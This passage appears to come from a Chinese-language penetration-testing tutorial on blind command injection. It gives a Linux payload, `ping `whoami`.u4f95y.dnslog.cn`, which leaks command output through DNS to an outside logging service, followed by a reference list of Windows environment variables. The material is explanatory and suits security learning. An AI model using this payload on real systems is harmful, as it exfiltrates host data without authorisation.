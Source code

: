

如果是 Linux 环境，则 Payload 对应的应该为：

```
ping `whoami`.u4f95y.dnslog.cn
```



##### Windows 常用变量：

```
//变量 类型 描述

//%ALLUSERSPROFILE% 本地 返回“所有用户”配置文件的位置。

//%APPDATA% 本地 返回默认情况下应用程序存储数据的位置。

//%CD% 本地 返回当前目录字符串。

//%CMDCMDLINE% 本地 返回用来启动当前的 Cmd.exe 的准确命令行。

//%CMDEXTVERSION% 系统 返回当前的“命令处理程序扩展”的版本号。

//%COMPUTERNAME% 系统 返回计算机的名称。

//%COMSPEC% 系统 返回命令行解释器可执行程序的准确路径。

//%DATE% 系统 返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。

//%ERRORLEVEL% 系统 返回上一条命令的错误代码。通常用非零值表示错误。

//%HOMEDRIVE% 系统 返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。

//%HOMEPATH% 系统 返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。


//%HOMESHARE% 系统 返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。

//%LOGONSERVER% 本地 返回验证当前登录会话的域控制器的名称。

//%NUMBER_OF_PROCESSORS% 系统 指定安装在计算机上的处理器的数目。

//%OS% 系统 返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。

//%PATH% 系统 指定可执行文件的搜索路径。

//%PATHEXT% 系统 返回操作系统认为可执行的文件扩展名的列表。

//%PROCESSOR_ARCHITECTURE% 系统 返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。

//%PROCESSOR_IDENTFIER% 系统 返回处理器说明。

//%PROCESSOR_LEVEL% 系统 返回计算机上安装的处理器的型号。

//%PROCESSOR_REVISION% 系统 返回处理器的版本号。

//%PROMPT% 本地 返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。

//%RANDOM% 系统 返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。

//%SYSTEMDRIVE% 系统 返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。


//%SYSTEMROOT% 系统 返回 Windows server operating system 根目录的位置。

```
